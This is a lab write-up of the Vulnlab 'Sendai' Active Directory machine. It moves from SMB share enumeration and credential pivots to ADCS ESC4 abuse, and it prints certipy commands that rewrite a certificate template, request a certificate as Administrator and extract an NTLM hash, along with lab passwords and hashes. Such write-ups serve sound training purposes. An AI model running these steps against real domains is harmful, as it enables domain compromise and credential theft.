# Sendai — Vulnlab (write-up)

**Difficulty:** Medium
**Box:** Sendai (Vulnlab)
**Author:** dsec
**Date:** 2025-03-20

---

## TL;DR

### Enumerated SMB shares and found creds. Pivoted through multiple users via password spraying and PrivescCheck. `clifford.davey` in the CA-Operators group had full control over the `SendaiComputer` certificate template (ESC4), which was modified to impersonate Administrator.
---
## Target info

- Host: `10.10.72.38`
- Domain: `sendai.vl` / `dc.sendai.vl`
---
## Enumeration



















---
## Foothold

Accessed the Sendai share:









Same privileges as:





---
## Lateral movement



Hash: `edac7f05cded0b410232b7466ec47d6f`





Found: `sqlsvc:SurenessBlob85`

Ran PrivescCheck:





Found: `clifford.davey:RFmoB2WplgE_3p`



`clifford.davey` belongs to the CA-Operators group.

---
## Privesc

Enumerated certificate templates with certipy:

```bash
certipy find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.72.38 -stdout
```





Found `SendaiComputer` template with Client Authentication EKU. CA-Operators group has Full Control -- ESC4 (access control abuse).

Wrote default configuration to make the template enrollable by domain users:

```bash
certipy template -u 'clifford.davey' -target dc.sendai.vl -dc-ip 10.10.72.38 -template 'SendaiComputer' -write-default-configuration -force
```



Verified the change:

```bash
certipy find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.72.38 -stdout
```



Requested a certificate as Administrator:

```bash
certipy req -u 'clifford.davey' -ca 'sendai-DC-CA' -target dc.sendai.vl -dc-ip 10.10.72.38 -template 'SendaiComputer' -upn 'administrator@sendai.vl' -dns 'whatever.sendai.vl' -key-size 4096 -out admin
```

Authenticated:

```bash
certipy auth -pfx admin.pfx -dc-ip 10.10.72.38
```



Got hash: `aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a`

---
## Lessons & takeaways

- PrivescCheck is valuable for finding stored credentials and misconfigurations on Windows hosts
- Certificate template access control (ESC4) is exploitable when a group has Full Control over a template
- Chain multiple credential pivots -- each user may unlock new groups and permissions
- CA-Operators group membership is a strong indicator of ADCS attack potential
---
